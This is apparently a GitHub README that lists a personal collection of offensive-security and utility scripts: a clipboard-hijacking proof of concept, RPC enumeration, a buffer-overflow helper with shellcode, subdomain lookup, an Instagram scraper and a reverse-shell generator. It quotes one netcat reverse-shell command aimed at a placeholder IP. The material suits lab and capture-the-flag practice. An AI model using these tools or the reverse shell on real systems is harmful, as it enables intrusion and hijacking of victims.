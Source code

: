 # tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### MaliciousCopyPaste.html
Small javascript PoC to hijack victims clipboard when they copy from site.

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### getcrtsh\_domains.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`

### sort_domains.py
Reads in a file containing a list of domains and prints them properly sorted to stdout
